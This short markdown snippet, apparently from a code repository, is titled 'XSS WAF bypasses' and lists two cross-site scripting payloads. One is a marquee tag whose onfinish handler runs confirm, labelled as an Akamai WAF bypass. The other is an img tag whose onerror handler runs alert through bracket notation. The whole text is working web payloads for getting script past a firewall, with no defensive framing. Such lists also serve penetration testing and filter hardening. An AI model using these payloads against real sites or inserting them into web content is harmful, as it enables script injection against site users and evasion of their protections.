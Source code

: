 # XSS WAF bypasses

<marquee/loop=1+width=0+onfinish=[document.domain].map(confirm)> Akami WAF bypass.<br>
<img/src/onerror=self\['alert'\]\(document.domain\)>
